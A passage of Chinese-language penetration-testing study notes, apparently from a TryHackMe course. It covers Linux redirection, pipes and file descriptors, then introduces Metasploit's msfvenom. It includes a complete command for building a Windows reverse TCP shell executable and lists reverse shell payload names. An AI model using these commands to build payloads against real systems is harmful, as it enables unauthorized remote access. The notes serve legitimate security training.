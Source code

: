   - Linux命令中的重定向(>)和管道(|)
    - 文件描述符
      - Linux的宗旨是一切皆文件，对于进程、IO等等都是通过文件的形式存在，这些文件都通过文件描述符的形式来表示。
      - Linux启动时，最开始会创建init进程，其余的程序都是这个进程的子进程。而init进程默认打开3个文件描述符：
        - 标准输入：standard input(0)
        - 标准输出：standard output(1)
        - 标准错误：standard error(2)
    - 重定向
      - 输出重定向
        - `ls exists.txt no-exists.txt 1 > success.txt 2 > fail.txt`
        - 关闭标准错误信息
          - `ls exists.txt no-exists.txt 2 > /dev/null`
          - `ls exists.txt no-exists.txt 2 > &-`
        - 关闭所有输出
          - `ls exists.txt no-exists.txt 1 > /dev/null 2 > /dev/null`
          - `ls exists.txt no-exists.txt 1 > &- 2 > &-`
          - `ls exists.txt no-exists.txt 2 > &1 1 > /dev/null`
      - 输入重定向
        - `cat > output.txt  < input.txt`
          - 类似于复制
      - 管道
        - `cat test.txt | grep -n 'test'`
- msfvenom
  - msfvenom 是Metasploit框架的一部分，主要用于生成反向和绑定 shell 的代码
  - 标准语法
    - `msfvenom -p <PAYLOAD> <OPTIONS>`
    - 示例
      - `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

        ![msfvenom01](image/msfvenom01.png)
        - -f \<format\>
          - 输出的文件类型，这里是 exe 可执行文件
        - -o \<file\>
          - 输出的文件名称
  - PAYLOAD的命名规则
    - [回顾](https://github.com/MasterandRoot/Learn-THM/blob/main/Jr%20Penetration%20Tester/Vulnerability%20Research.md#metasploit%E7%AE%80%E4%BB%8B)
    - `<OS>/<arch>/<payload>`
      - `linux/x86/shell_reverse_tcp` x86 linux 下的 singles shell
      - `windows/shell_reverse_tcp` 默认x64 windows 下的 singles shell
    - `msfvenom --list payloads` 列出所有有效载荷，可使用 grep 分类
    
      ![msfvenom02](image/msfvenom02.png)
